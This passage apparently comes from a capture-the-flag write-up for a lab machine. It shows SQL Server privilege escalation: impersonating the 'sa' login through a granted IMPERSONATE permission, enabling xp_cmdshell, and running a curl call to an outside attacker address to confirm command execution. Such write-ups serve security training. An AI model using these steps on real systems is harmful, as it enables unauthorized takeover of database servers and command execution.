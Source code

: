 We can see something interesting.  

<br/> 
<img src="/img/freelancer_screenshots/Pasted image 20241106202724.png" alt="1" style="width:700px; height:auto;">
<br/>

the `IMPERSONATE` permission is active for the user `Freelancer_webapp_user`. This means that `Freelancer_webapp_user` has been explicitly granted the `IMPERSONATE` permission, which allows the user to assume the identity of other SQL Server principals (such as other users or logins) within the SQL Server instance.  
We can impersonate the database admin. 

```sql
EXECUTE AS LOGIN = 'sa';
SELECT SYSTEM_USER AS CurrentLogin;
```

<br/> 
<img src="/img/freelancer_screenshots/Pasted image 20241106203125.png" alt="1" style="width:700px; height:auto;">
<br/>

We are now the `system admin`. 

```sql
EXECUTE AS LOGIN = 'sa';
SELECT SYSTEM_USER AS CurrentLogin;
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
EXEC xp_cmdshell 'curl http://10.10.16.5:8000';
```

We can see that the `command` was executed successfully.  
